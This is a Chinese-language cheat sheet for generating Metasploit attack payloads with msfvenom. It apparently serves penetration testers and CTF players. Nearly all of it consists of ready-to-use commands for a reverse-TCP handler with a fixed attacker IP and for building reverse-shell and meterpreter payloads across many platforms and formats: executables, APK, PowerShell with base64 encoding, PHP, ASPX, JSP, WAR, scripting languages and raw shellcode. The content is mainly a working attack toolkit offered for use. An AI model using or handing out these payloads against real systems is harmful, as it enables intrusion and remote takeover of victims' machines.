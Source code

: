 ```yaml
---
title: msfvenom-生成攻击载荷-命令速查
categories:
- tools
tags:
- tools
---
```


参考资料：
- github-Micro8
- https://github.com/rapid7/metasploit-framework/wiki/Metasploit-5.0-Release-Notes
- https://www.hackers-arise.com/single-post/2017/06/08/Metasploit-Basics-Part-7-Adding-a-New-Module-EternalBlue

msfvenom -l payload 列出所有可用载荷

截至2019.3.4日，msf的版本为：metasploit v5.0.9-dev

| 命令 | 之前 | 现在 |
|---|---|---|
| 更新 | msfupdate | apt update; apt install metasploit-framework |
|handler监听| 命令1 | handler -H 10.10.14.7 -P 6678 -p linux/x86/meterpreter/reverse_tcp |
|添加exploit | 命令2 | 命令3 |

命令1：
msfconsole -r job.rc

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 7766
run
```

命令2：`新建/root/.msf4/modules/exploits/new/xx.rb`

命令3: `新建usr/share/metasploit-framework/modules/exploits/unix/webapp/xx.rb`

>reload_all 
当载入新的metasploit 插件/payload，不用重启metasploit。

## windows:
```
handler -H ip -P 4444 -p windows/meterpreter/reverse_tcp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=4444 -o payload.exe
```
## mac:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f macho -o payload.macho
```
## android:
```
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f apk -o payload.apk
```
## powershell:
```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```
## linux:
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```
## php:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=
<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >>
shell.php
```
## aspx:
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
## jsp:
```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻
击机端口 -f raw -o payload.jsp
```
## war:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -
o payload.war
```
## nodejs:
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.js
```
## python:
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -
f raw -o payload.py
```
## perl:
```
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.pl
```
## ruby:
```
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.rb
```
## lua:
```
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.lua
```
## windows shellcode:
```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f c
```
## linux shellcode:
```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f c
```
## mac shellcode:
```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f c
```
